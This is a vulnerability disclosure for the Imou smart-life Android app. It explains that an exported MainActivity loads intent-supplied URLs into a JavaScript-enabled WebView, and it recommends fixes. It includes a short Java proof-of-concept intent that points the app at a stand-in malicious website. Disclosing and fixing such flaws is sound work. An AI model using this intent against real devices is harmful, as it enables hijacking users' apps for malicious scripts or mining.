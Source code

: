 ## Vulnerability Report 

### Introduction:
This vulnerability report outlines a security flaw identified in the `com.mm.android.smartlifeiot` app's exported activity: `com.mm.android.easy4ip.MainActivity`.

A remote attacker can execute arbitrary code via insecure intent handling.


### Affected Component:
Activity: `com.mm.android.easy4ip.MainActivity`  
App: `com.mm.android.smartlifeiot`

### Vulnerability Description:

The com.mm.android.easy4ip.MainActivity activity within the com.mm.android.smartlifeiot app blindly loads URLs provided through intent data. 

A malicious third-party app can exploit this oversight to trigger the loading of malicious web content, initiating unauthorized JavaScript web browser mining operations or remote code execution within the WebView.

**No permissions are required since the activity is exported.**

### Proof of Concept:

 ![image](https://github.com/actuator/imou/blob/main/pocGIF.gif)
 
A third-party malicious app (`com.example.d3m0`) can craft and launch an intent targeting `com.mm.android.easy4ip.MainActivity` as follows:


Intent intent = new Intent();
intent.setComponent(new ComponentName("com.mm.android.smartlifeiot", "com.mm.android.easy4ip.MainActivity"));
intent.putExtra("url", "imoulife://http://maliciouswebsitetest.com");
startActivity(intent);


Upon executing this code, `com.mm.android.easy4ip.MainActivity` would be triggered to load the content from `http://maliciouswebsitetest.com`.

### Code Snippets:

1. In the `com.mm.android.easy4ip.MainActivity`, URLs are loaded directly from intent data without adequate validation:
   
**this.url = getIntent().getExtras().getString("url");**


2. JavaScript execution is enabled in the WebView:

**this.webView.getSettings().setJavaScriptEnabled(true);**

3. Direct web content loading with the fetched URL:

**progressWebView.loadUrl(str);**


### Impact:

An attacker can exploit this vulnerability to:

Execute arbitrary JavaScript within the app's context, leading to remote code execution.

Start unauthorized web browser mining operations, consuming device resources and potentially earning cryptocurrency for the attacker.

Access the internet from a victim's device without necessary permissions in the malicious app's manifest.

### MITRE CWE References:

- [CWE-94: Improper Control of Generation of Code ('Code Injection')](https://cwe.mitre.org/data/definitions/94.html): The vulnerability can potentially allow attackers to inject arbitrary code.
- [CWE-95: Improper Neutralization of Directives in Dynamically Evaluated Code ('Eval Injection')](https://cwe.mitre.org/data/definitions/95.html): With JavaScript enabled, an attacker could potentially inject malicious scripts.

### Recommendations:

1. **Intent Data Validation**: Ensure that all intent data, especially URLs, are adequately validated before use.
2. **Disable JavaScript (if not needed)**: If the application does not require JavaScript execution within the WebView, it should be disabled.
3. **Use Web Content Filtering**: Implement a whitelist of allowed domains or URLs that can be loaded in the WebView.
4. **Flag Non-Exported**: If the MainActivity is not intended to be used by third-party apps, ensure that it's flagged as non-exported in the manifest.

 TLDR: **Set Exported='False'**
 ![image](https://github.com/actuator/imou/assets/78701239/ca4d4e27-3d5d-4a49-8fd9-2a7e60e29c37)



 
